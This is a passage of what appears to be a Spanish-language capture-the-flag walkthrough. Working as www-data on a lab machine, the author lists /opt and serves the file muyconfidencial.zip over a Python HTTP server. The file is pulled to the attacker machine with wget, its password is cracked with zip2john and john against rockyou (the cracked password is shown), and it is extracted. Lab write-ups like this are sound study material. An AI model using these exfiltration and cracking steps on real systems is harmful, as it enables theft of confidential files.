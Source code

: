 LIstandno igual lo que existe en el directioro **opt**
```bash
ls -la /opt

-rw-r--r--  1 root root 93052465 Apr  1  2024 muyconfidencial.zip
```

Ahora tenemos que ver si existe el binario de python para poder transferirirnos a nuestra maquina de atacante, este archivo:
```bash
which python3 
/usr/bin/python3
```

Ahora nos podemos montar un servidor con python
```bash
www-data@mortadela:/opt$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Descargamos el archivo
```bash
 wget http://192.168.100.36:8080/muyconfidencial.zip
```

Como estoy seguro que necesitamos una contrasena para extraer el contenido, Procedemos a realizar lo siguiente:
```bash
zip2john muyconfidencial.zip > hash
```

Ahora realizamos un ataque de fuerza bruta para obtener la passaword
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pinkgirl         (muyconfidencial.zip) # Contrasena
```

Ahora si que procedemos a extraer el archvios:
```bash
 7z x muyconfidencial.zip

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:16 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 93052465 bytes (89 MiB)

Extracting archive: muyconfidencial.zip
--
Path = muyconfidencial.zip
Type = zip
Physical Size = 93052465

    
Enter password (will not be echoed):
Everything is Ok    

Files: 2
Size:       267522141
Compressed: 93052465
```

